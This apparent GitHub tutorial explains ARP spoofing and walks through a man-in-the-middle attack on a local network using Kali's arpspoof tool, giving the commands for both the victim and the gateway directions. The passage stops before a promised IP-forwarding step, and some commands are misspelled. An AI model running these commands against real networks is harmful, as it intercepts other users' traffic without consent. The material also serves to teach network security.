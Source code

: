 # ARP SPOOFING


ARP stands for **Adress Resolution Protocol** this protocol helps us to link  IP addresses to MAC addresses .So whenever devices know each other's IP addresses they use ARP and send broadcast message (asking for that specific IP) in order to know the MAC address of the other device,(the devices which poses that specific IP will respond to that device by sending it's MAC Address).

Our goal is write a code which can perform  a *ARP SPOOF ATTACK* for us, at first lets know briefly about the ARP spoofing :
In this attack the attacker pretends to be router for the victim by taking router's MAC Address and for router the attacker acts as victim by taking its MAC Address and hence attacker become's the **man in the middle** between router and victim,which gives us a huge power you must also think that why ARP Spoof is possible so easily ?

- because clients <mark> accept responses </mark> even if they don't send a request.
- clients trust response without any form of <mark> validation </mark>.

Before writing any code you must know that **KALI** comes with inbuilt tools to perform **ARP SPOOF ATTACK**

run the below command to know your *gateway  IP* and the *interface*

```bash
root@kali:~# route -n

```

Scan all the clients connected to same network to mark your target and it's IP

```bash
root@kali:~# arpspoof -i (interface) -t (target ip)  (gateway ip )  

```
See interface depends you it can eth0/wlan0 anything below command is just an example:

```bash

root@kali:~# arppoof -i eth0 -t 10.0.2.4  10.0.2.1  

```
> The above command fools the target and makes you the router for the him.

In order to spoof the the router you need change the IP sequence in your command  (in different tab)

```bash
root@kali:~# arpspoof -i (interface) -t (gateway ip)  (target ip )  

```
example:

```bash
root@kali:~# arppoof -i eth0 -t 10.0.2.1  10.0.2.4

```

When your machine becomes router for victim and when recives an request it stops them flowing  to the router which is  default security feature built in *KALI* in order to enable port forwarding fix this issue run the below command(in different tab).
